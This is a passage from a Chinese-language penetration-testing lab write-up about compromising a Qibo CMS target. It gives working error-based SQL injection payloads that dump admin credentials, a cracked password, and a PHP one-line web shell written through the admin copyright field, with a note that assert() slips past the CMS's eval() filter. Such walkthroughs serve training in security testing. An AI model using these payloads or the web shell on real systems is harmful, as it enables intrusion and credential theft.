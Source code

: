 ![sqli_2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/sqli_2.png)

以上 payload 在漏洞报告的基础上稍作修改，否则输出不了完整的密码哈希。

关于 SQL 报错注入的可利用函数较多，本题选用了 [`extractvalue()`](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_extractvalue) 函数：

```sql
TB_pre=qb_members where 1 and extractvalue(1,concat(0,(select concat(0x7e,username,password) from qb_members limit 1)))-- a
```

也可以选用 [`updatexml()`](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_updatexml) 函数：

```sql
TB_pre=qb_members where 1 and updatexml(1,concat(0,(select concat(0x7e,username,password) from qb_members limit 1)),0)-- a
```

以下是在[倾旋](http://payloads.online/)的公开课中总结出来的 [MySQL](https://www.mysql.com/) 数据库常用十大报错函数，建议去官方文档查阅每个函数的用法，多看多练，熟能生巧：

![error_function_1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/error_function_1.png)

![error_function_2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/error_function_2.png)

最后利用 [MD5解密工具](http://www.dmd5.com/md5-decrypter.jsp) 对密码哈希值解密，得到密码明文为 `whoami!@#123`：

![password](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/password.png)

# 0x02 获取目标服务器 1 管理员桌面的 FLAG 文件信息

获取了管理员权限，相当于完成了 getshell 的一半。随便搜搜可发现许多用于齐博 CMS getshell 的漏洞，下面选取两个文件写入漏洞进行复现。

## 后台频道页版权信息写入木马

第一个漏洞涉及两个操作：一是在网页底部版权信息中写入一句话木马，二是创建频道静态化页面。漏洞报告中未给出审计过程，本人对此组合拳甚是佩服，详情可参考：

> [齐博cms最新后台getshell](http://0day5.com/archives/1046/)

先搜索到齐博 CMS 的默认登录后台为 `/admin/index.php`，遂尝试访问，发现后台路径确实没修改。再用账号 `admin` 与密码 `whoami!@#123` 登录后台：

![login_back](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/login_back.png)

依次点击 **系统功能 -> 全局参数设置**，在 **网页底部版权信息** 中写入一句话木马 `<?php @assert($_POST['cmd']); ?>` 后保存设置：

![copyright](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/copyright.png)

这里为什么不用传统的一句话木马 `<?php @eval($_POST['cmd']); ?>` 呢？因为 CMS 对 `eval()` 函数进行了过滤，会将其转变成 `eva l()`：

![copyright_fail](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/copyright_fail.png)

所以此处能用 `assert()` 函数写入木马，也体现了 CMS 的写入过滤不完全。接着点击 **系统功能 -> 频道独立页管理 -> 添加频道页**，在 **频道页名字** 处填上任意字符（此处以 `sqli` 为例），在 **静态文件名** 处必须填上 `.php` 文件名，否则菜刀连接不上（此处以 `sqli.php` 为例）：
